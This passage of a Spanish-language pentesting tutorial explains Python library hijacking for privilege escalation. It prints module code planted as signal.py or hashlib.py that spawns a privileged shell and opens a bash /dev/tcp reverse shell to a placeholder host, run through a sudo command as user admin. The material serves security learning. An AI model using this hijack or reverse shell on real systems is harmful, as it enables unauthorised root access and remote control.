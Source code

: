 ```python
if __name__ == "__main__":
	main()
```
#### Es un script x de ejemplo, podría ser cualquier tipo de script. 

### En este momento es cuando, en caso de tener permiso de escritura en el directorio en el cual se encuentra el script (*/home/admin*) o tenerlo en alguna de las carpetas en donde python busca las librerías (**python3 -c 'import sys; print(sys.path)'** para ver los paths) o incluso teniendo permisos de escritura en alguna de las librerías que se importa el script, en este caso *hashlib*, *signal*, etc. podríamos acontecer un *Python Library Hijacking*.

### Por ejemplo podríamos crear el script (En la carpeta de trabajo o alguna de las otras), o incluso modificar la librería original para ingresar código malicioso que ejecute alguna acción, por ejemplo espawnear una consola como el usuario administrador aprovechando que podemos ejecutar el script como dicho usuario gracias a los permisos SUID, o enviarla a un equipo remoto, etc.

#### signal.py  ||  hashlib.py
```python
# Spawnear una consola como el usuario admin
import os

os.system("bash -p")

#############################################3

# Enviar una reverse shell como el usuario admin a un dispositivo remoto 
import subprocess

subprocess.Popen(["bash -c 'bash -i &>/dev/tcp/{ip}/{port} 0>&1'"], shell=True)
```

### Una vez teniendo el código malicioso en un nuevo archivo en el directorio de trabajo con el nombre de una de las librerías importadas en el script original, o habiendo modificado la librería real bastaría con ejecutar el script como el usuario *admin* aprovechando los permisos garantizados en el archivo de sudoers y tendríamos la ejecución de los comandos deseados.  **sudo -u admin /usr/bin/python3 /home/admin/myFirstScript.py** 

-----

# Abuso de permisos incorrectamente implementados
